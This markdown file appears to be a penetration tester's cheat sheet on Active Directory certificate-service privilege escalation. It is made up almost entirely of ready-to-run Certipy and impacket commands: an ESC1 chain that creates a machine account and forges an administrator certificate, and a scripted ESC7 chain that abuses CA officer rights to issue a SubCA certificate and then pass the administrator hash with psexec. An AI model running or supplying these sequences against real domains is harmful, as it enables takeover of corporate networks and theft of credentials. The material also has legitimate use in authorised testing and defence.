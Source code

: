 ```yaml
---
title: Active Directory
---
```


# Active Directory Privilege Escalation

- [Hacktricks CS Domain Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2)
- [Hacktricks Certificates](https://book.hacktricks.xyz/crypto-and-stego/certificates)
- [impacket](https://github.com/fortra/impacket)
- [certipy](https://github.com/ly4k/Certipy)

## Certificate Authority stuff

```bash
certipy-ad find -u my_user -p my_password123 -dc-ip 10.10.10.10
```

In the `.txt` file, look for:
```bash
# Template Name                       : ESC1
# Display Name                        : Escee 1
# Certificate Authorities             : COMPANY-CA
# ...
Enabled                             : True
Enrollee Supplies Subject           : True
Enrollment Rights                   : Company.org\Domain Computers
Enrollment Rights                   : Company.org\Domain Users
```

### Enrollment Rights Domain Computers
```bash
python impacket/examples/addcomputer.py company.org/my_user:'my_password123' -dc-ip 10.10.10.10 -computer-name "newcomputer1" -computer-pass 'newpass1'
```
```bash
certipy-ad req -username 'newcomputer1$' -password 'newpass1' -ca 'COMPANY-CA' -target 10.10.10.10 -template 'ESC1' -upn "administrator@company.org" -dns dns.company.org
```
```bash
certipy-ad auth -pfx administrator_company.pfx -dc-ip 10.10.10.10 -ldap-shell
```

## Vulnerable Certificate Authority Access Control - ESC7
- [Hacktricks ESC7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7)
```bash
#!/bin/bash

theca='xxxx-DC01-CA'
theuser='xxx@xxx.com'
theusername='xxxxx'
theadmin='administrator@xxx.com'
thepassword='xxxxxxxxx'
theip='x.x.x.x' 
thetarget='xxx.com'

certipy-ad ca -ca $theca -add-officer $theusername -username $theuser -password $thepassword -dc-ip $theip
certipy-ad ca -ca $theca -enable-template SubCA -username $theuser -password $thepassword -dc-ip $theip

REQUEST_ID=$(echo "y" | certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -template SubCA -upn $theadmin -dc-ip $theip | awk -F' ' '/Request ID is/ {print $5}')
echo "Request ID: $REQUEST_ID"

certipy-ad ca -ca $theca -issue-request $REQUEST_ID -username $theuser -password $thepassword -dc-ip $theip
certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -retrieve $REQUEST_ID -dc-ip $theip

certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetarget -dc-ip $theip
```

```bash
# this returns a hash
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetargetdomain -dc-ip $theip

# use the hash here
python psexec.py -hashes hhhhhhhh:hhhhhhhhh administrator@xxxx.com
```


